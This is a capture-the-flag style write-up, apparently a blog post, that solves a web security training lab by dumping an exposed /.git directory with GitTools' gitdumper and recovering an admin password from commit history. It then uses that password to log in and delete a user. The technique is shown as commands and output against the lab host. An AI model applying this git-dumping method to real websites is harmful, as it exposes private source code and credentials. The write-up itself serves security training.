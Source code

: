 ```yaml
---
layout: post
title:  "Information disclosure in version control history"
date:   2024-10-14 12:20:54 +0530
---
```


## Objective

  

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete the user `carlos`.

  

## Solution

  

We found that `/.git`  directory is accessible over thr browser and can able to browse the files inside those directory 

  

![]({{ site.baseurl }}/assets/images/image.png)  

  

With the help of the following tools like [GitTools](https://github.com/internetwache/GitTools "https://github.com/internetwache/GitTools") where we can do deep mining into the `/.git`  directory 

  

```
git clone https://github.com/internetwache/GitTools

Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 1.34 MiB/s, done.
Resolving deltas: 100% (88/88), done.
```

  

Now using `gitdumper`  we can dump those files 

  

```
./gitdumper.sh https://0af100170449d7ee81f725ea00760019.web-security-academy.net/.git/ ./output

[*] Destination folder does not exist
[+] Creating ./output/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/59/a11a147bc60e9c657255fe255c8dc59a396571
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/69/c1f3419d19725877d2116b27803eeda2f5770d
[+] Downloaded: objects/21/54555944002791a4d27412bf6e9a6f29e942fa
[+] Downloaded: objects/f1/0406cbf20c7394b26ab6527ff3b7847e9fb006
[+] Downloaded: objects/21/d23f13ce6c704b81857379a3e247e3436f4b26
[+] Downloaded: objects/89/44e3b9853691431dc58d5f4978d3940cea4af2
[+] Downloaded: objects/c6/dce6e78af021c0356d07915b04ae09eff9e3f1
```

  

Checking logs using `git log`  command shows there are two logs exists 

  

```sh
commit 59a11a147bc60e9c657255fe255c8dc59a396571 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 69c1f3419d19725877d2116b27803eeda2f5770d
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

  

Our goal is to get the admin password for that reason I’m picking up this commit hash **59a11a147bc60e9c657255fe255c8dc59a396571** and with the following command `git show <commit hash>` 

  

```sh
commit 59a11a147bc60e9c657255fe255c8dc59a396571 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index c6dce6e..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=gsgt65n8qqttokocbunz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

  

Now with the admin password we have, we will go to our login page with the username as **administrator** and password as **gsgt65n8qqttokocbunz...** Delete the carlos to complete the lab 

  

![]({{ site.baseurl }}/assets/images/image%202.png)